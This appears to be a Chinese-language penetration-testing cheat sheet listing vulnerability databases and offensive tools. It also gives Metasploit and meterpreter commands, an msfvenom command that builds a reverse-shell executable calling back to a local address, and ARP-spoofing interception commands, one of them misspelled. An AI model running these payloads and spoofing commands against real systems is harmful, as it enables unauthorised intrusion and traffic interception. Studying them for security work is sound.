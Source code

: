 渗透ceshi

---

漏洞发布网站
 
https://www.seebug.org/

https://www.exploit-db.com/

---

Firefox下

    Firebug，调试js，HTTP请求响应观察，Cookie，DOM树观察等；GreaseMonkey，自己改了个Cookie修改脚本，其他同学可以用这款：Original Cookie Injector for Greasemonkey；Noscript，进行一些js的阻断；AutoProxy，翻墙必备；

Chrome下

    F12打开开发者工具，功能==Firebug+本地存储观察等；SwichySharp，翻墙必备；Cookie修改脚本，自己写了一个Chrome扩展（已开源：Cookie利用神器：CookieHacker），其他同学可以自己到Chrome扩展搜个好用的；

前端渗透工具

    

HTTP代理工具

    Fiddler，即可，不用再寻找其他的了，watcher插件漏洞
    
    Burp Suite，HTTP代理，还有爬虫、漏洞扫描、渗透、爆破等功能

漏洞扫描工具

    AWVS，不仅漏扫方便，
    
    Python自写脚本/工具
    
    Nmap，绝对不仅仅是端口扫描,脚本

漏洞利用

    sqlmap，SQL注入利用
    
    Metasploit，主机渗透框架，；
    
    Hydra，爆破必备；

抓包工具

    Wireshark，抓包必备；tcpdump，Linux下命令行抓包，结果可以给Wireshark分析；

大数据平台

    ZoomEye，知道创宇开放的一个网络空间搜索引擎，搜搜组件就知道：ZoomEye（钟馗之眼），可以认为我在广告；SHODAN， 老外开放的一个网络空间搜索引擎，搜搜主机设备就知道：SHODAN – Computer Search Engine；Google，：）

熟练Linux众多命令+Vim

---

# Metasploit

---

search cve:2009 type:exploit app:client

info 展示相关信息

show advanced 列出所有高级配置

check 检车目标是否选定渗透攻击存在相应安全漏洞


---

# Metgetpid

注入进程　migrate 

上传文件  　upload　　

下载文件　　 download 

session -l 列出可用的交互会话

session -i number 选定会话

获取最高权限  sysinfo getsystem 

---
# msfvenom 

msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.103 lport=4444 -f exe -o back.exe

---

# Arp

apt install dsniff ssldump

arpspoof -i eth0 -t 目标IP 目标网关IP

echo 1 > /proc/sys/net/ipv4/ip_forwardd

driftnet -i eth0
